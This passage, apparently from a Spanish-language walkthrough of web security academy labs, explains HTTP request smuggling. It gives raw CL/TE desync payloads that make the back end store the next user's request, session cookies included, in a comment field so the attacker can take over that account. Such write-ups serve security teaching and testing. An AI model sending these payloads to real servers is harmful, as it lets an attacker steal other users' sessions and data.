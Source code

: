 ```HTTP

GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO
csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

De nuevo, como el Content-Length contiene una cantidad más exagerada de bytes que la que se aporta en la request, el contenido de la siguiente request se adherira al parámetro comment que se verá reflejada en la sección de comentarios:

<br />

**Laboratorio 9: Obteniendo contenido de las requests de otros usuarios**

Este laboratorio involucra un servidor front-end y back-end, y el servidor front-end no admite la codificación fragmentada.

Para resolver el laboratorio, vamos a pasar de contrabando una solicitud al servidor back-end que hace que la solicitud del siguiente usuario se almacene en la aplicación. Luego recupere la solicitud del próximo usuario y use las cookies del usuario víctima para acceder a su cuenta:

```HTTP
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=your-session-token
csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```

Por un fallo del laboratorio el usuario Carlos no tiene cookie de sesión y por tanto este no puede ser completado. Pero esa sería la resolución del laboratorio.

<br />

#### 5.4. Using HTTP Request smuggler to perfom XSS attacks.
